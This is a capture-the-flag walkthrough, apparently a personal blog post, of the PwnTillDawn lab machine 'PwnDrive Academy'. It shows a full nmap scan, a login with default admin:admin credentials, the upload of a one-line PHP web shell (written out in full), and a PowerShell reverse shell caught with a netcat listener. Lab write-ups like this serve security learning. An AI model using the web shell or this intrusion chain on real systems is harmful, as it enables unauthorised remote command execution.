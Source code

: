 ### PwnDrive Academy PwntillDawn

### IP Address = 10.150.150.11

### Difficulty = Easy

### OS = windows
Hi guys,

Will be walking you through a pwntilldawn easy box "pwndriveacademy"

Let's get started.

## NMAP SCAN:

```

┌──(venus㉿AL13N)-[~]
└─$ nmap -A -T5 10.150.150.11                         
Starting Nmap 7.92 ( https://nmap.org ) at 2023-06-03 22:17 WAT
Warning: 10.150.150.11 giving up on port because retransmission cap hit (2).

** (atril:3324): WARNING **: 22:19:20.176: Error setting file metadata: No such file or directory
Nmap scan report for 10.150.150.11
Host is up (0.19s latency).
Not shown: 980 closed tcp ports (conn-refused)
PORT      STATE    SERVICE            VERSION
21/tcp    open     ftp                Xlight ftpd 3.9
80/tcp    open     http               Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.9)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.4.9
|_http-title: PwnDrive - Your Personal Online Storage
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open     msrpc              Microsoft Windows RPC
139/tcp   open     netbios-ssn        Microsoft Windows netbios-ssn
306/tcp   filtered unknown
443/tcp   open     ssl/http           Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.9)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.4.9
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| tls-alpn: 
|_  http/1.1
|_http-title: PwnDrive - Your Personal Online Storage
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
445/tcp   open     microsoft-ds       Windows Server 2008 R2 Enterprise 7601 Service Pack 1 microsoft-ds
1110/tcp  filtered nfsd-status
1433/tcp  open     ms-sql-s           Microsoft SQL Server 2012 11.00.2100.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2020-08-24T13:11:13
|_Not valid after:  2050-08-24T13:11:13
|_ssl-date: 2023-06-03T22:06:39+00:00; +46m37s from scanner time.
| ms-sql-ntlm-info: 
|   Target_Name: PWNDRIVE
|   NetBIOS_Domain_Name: PWNDRIVE
|   NetBIOS_Computer_Name: PWNDRIVE
|   DNS_Domain_Name: PwnDrive
|   DNS_Computer_Name: PwnDrive
|_  Product_Version: 6.1.7601
3306/tcp  open     mysql              MySQL 5.5.5-10.4.14-MariaDB
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.4.14-MariaDB
|   Thread ID: 1053
|   Capabilities flags: 63486
|   Some Capabilities: ConnectWithDatabase, Speaks41ProtocolOld, LongColumnFlag, Support41Auth, SupportsTransactions, InteractiveClient, Speaks41ProtocolNew, IgnoreSigpipes, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, FoundRows, SupportsLoadDataLocal, SupportsCompression, ODBCClient, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: jDU_\3&cCbDmy9MYU}9B
|_  Auth Plugin Name: mysql_native_password
3371/tcp  filtered satvid-datalnk
3389/tcp  open     ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=PwnDrive
| Not valid before: 2023-06-02T18:08:29
|_Not valid after:  2023-12-02T18:08:29
|_ssl-date: 2023-06-03T22:06:37+00:00; +46m37s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: PWNDRIVE
|   NetBIOS_Domain_Name: PWNDRIVE
|   NetBIOS_Computer_Name: PWNDRIVE
|   DNS_Domain_Name: PwnDrive
|   DNS_Computer_Name: PwnDrive
|   Product_Version: 6.1.7601
|_  System_Time: 2023-06-03T22:06:29+00:00
5631/tcp  filtered pcanywheredata
8042/tcp  filtered fs-agent
49152/tcp open     msrpc              Microsoft Windows RPC
49153/tcp open     msrpc              Microsoft Windows RPC
49154/tcp open     msrpc              Microsoft Windows RPC
49155/tcp open     msrpc              Microsoft Windows RPC
49156/tcp open     msrpc              Microsoft Windows RPC
49157/tcp open     msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| ms-sql-info: 
|   10.150.150.11:1433: 
|     Version: 
|       name: Microsoft SQL Server 2012 RTM
|       number: 11.00.2100.00
|       Product: Microsoft SQL Server 2012
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2008 R2 Enterprise 7601 Service Pack 1 (Windows Server 2008 R2 Enterprise 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: PwnDrive
|   NetBIOS computer name: PWNDRIVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-06-03T15:06:29-07:00
|_clock-skew: mean: 1h46m37s, deviation: 2h38m45s, median: 46m36s
| smb2-time: 
|   date: 2023-06-03T22:06:29
|_  start_date: 2020-08-24T13:11:20
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: PWNDRIVE, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:89:87:cb (VMware)
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.34 seconds

```

From the scan it shows the box is running on a windows OS

so, enumerating port 21 (ftp) gives nothing. 

Then moving on to the next port which's port 80(http)

we can see that there's nothing intresting on the page except the *signin* functionality

so, let's try to signin using default credentials **admin:admin** 

![2023-06-03_22-45](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/af1826b2-aa06-4337-b2d7-55d26d90e0ca)

boom we are in the admin's panel.

AS you can see there is an upload functionality,let's try to upload a shell (NB: the server is running php. Php web shell should work)

![succ_upload](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/1d05b3a7-0383-459d-afa3-97d66d5b38f2)
wow our shell has been uploaded successfully.
~~~
the shell
<?php system($_GET['cmd']); ?>
~~~
so, let's find our uploaded shell by bruteforcing for directories using ffuf
![finding_upload](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/0f28f198-8eb0-433f-8000-c84fb1178698)
Good we found it ;)

Now lets's gain  reverse shell via our uploaded webshell
![revrsjpg](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/a68e92f2-b193-41dc-958b-0f0b2f1ea797)
i used a powershell reverse shell from [https://revshells.com/].
Then start netcat listener and press F5 to refresh the page.
![done](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/8c23decd-9d37-41df-834a-846a6ea9a815)

BOOM!!  sweet reverse shell ;)

luckily we got the shell as system  escalating privilege isn't required.

DONE!!

*Till another day 999 to the world*

